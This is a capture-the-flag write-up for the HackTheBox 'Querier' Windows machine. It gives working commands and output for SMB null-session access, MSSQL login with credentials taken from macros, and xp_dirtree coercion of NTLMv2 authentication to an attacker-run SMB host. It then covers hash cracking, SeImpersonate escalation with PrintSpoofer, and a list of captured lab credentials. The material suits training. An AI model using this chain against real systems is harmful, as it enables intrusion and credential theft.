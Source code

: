 ```yaml
---
description: >-
  Querier HTB Machine
title: Querier (Medium)                # Add title here
date: 2023-04-24 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Medium]                     # Change Templates to Writeup
tags: [smb null session, macro, xslm, mssql, xp_dirtree, impacket-smbserver, ntlmv2, printspoofer, seimpersonateprivilege, gpp credentials]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Querier.png                # Add infocard image here for post preview image
---
```

### Host entries:
```bash
10.10.10.125 QUERIER querier.htb.local querier.htb
```
If Active Directory => [[Synchronize NTP]] with the domain controller.

### Content

- SMB Null Session
- Macro identification on XSLM
- MSSQL connection and XP_DIRTREE abusing
- Capturing Hash NTLMv2 with impacket-smbserver
- SeImpersonatePrivilege abuse with PrintSpoofer
- Extra: Hardcoded Credentials on GPP

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.125
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.125 ()   Status: Up
Host: 10.10.10.125 ()   Ports: 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///, 1433/open/tcp//ms-sql-s///, 5985/open/tcp//wsman///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////, 49671/open/tcp/////
```
Services and Versions running:
```bash
nmap -sCV -p 135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-24 22:25 EDT
Nmap scan report for 10.10.10.125
Host is up (0.14s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-04-25T02:05:06
|_Not valid after:  2053-04-25T02:05:06
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
|_ssl-date: 2023-04-25T02:26:42+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| ms-sql-info:
|   10.10.10.125:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time:
|   date: 2023-04-25T02:26:38
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds
```

SMB Server allows Null Session inside the share we identify the following file:
```bash
smbclient //10.10.10.125/Reports -N             

Try "help" to get a list of possible commands.
smb: \> 
smb: \> dir
  .                                   D        0  Mon Jan 28 17:23:48 2019
  ..                                  D        0  Mon Jan 28 17:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 16:21:34 2019
```
Analyzing such file with libre office we can see that there are some macros inside the file, and within there are some credentials:

![Description](/assets/img/Pasted image 20230424201223.png)

### Exploitation

Credentials can be abused to connect to the database via `-windows-auth` flag with `impacket-mssqlclient`
```bash
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -p 1433 -windows-auth
```

Inside the database we figure out that we can abuse the store procedure `xp_dirtree` as follows:
```bash
# On MSSQL Database
SQL> xp_dirtree '\\10.10.16.3\smbFolder'

# On Local SMB Server
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000
```

Then we proceed to crack the hash with hashcat:
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 5600 -a 0 hash.txt rockyou.txt

mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000:corporate568
```

### Root privesc
Enumerating the privileges with this user we identify the SeImpersonatePrivilege:

```powershell
C:\Windows\Temp\privesc> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name   Description       
==============   ===========       
SeAssignPrimaryTokenPrivilege Replace a process level token SelncreaseQuotaPrivitege	Adjust memory quotas for a	process
SeChangeNotifyPrivilege	Bypass traverse checking
SelmpersonatePrivilege	Impersonate a client after	authentication
SeCreateGlobalPrivilege	Create global objects
SelncreaseWorkingSetPrivilege Increase a process working	set

```
Also enumerating the system server info we identify that this server is a Windows Server 2019:
```powershell
C:\Users\Administrator\Desktop> systemínfo
Host Name: QUERIER
OS Name: Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
```
In order to abuse of SeImpersonatePrivilege we can abuse of [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to escalate privileges:
```powershell
C:\Windows\Temp\privesc> PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SelmpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami whoami
nt authority\system
```

### Post Exploitation
There is another way to escalate privileges through hardcoded credentials of Administrator (this are to be found via WinPEAS.exe):
```powershell
C:\Windows\Temp\privesc> winPEASx64.exe

....
Cached GPP Passwords

C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Found C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Name: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
    Changed: 2019-01-28 23:12:48
...
```

### Credentials
```text
reporting:PcwTWTHRwryjc$c6
mssql-svc:corporate568
Administrator:MyUnclesAreMarioAndLuigi!!1!
```


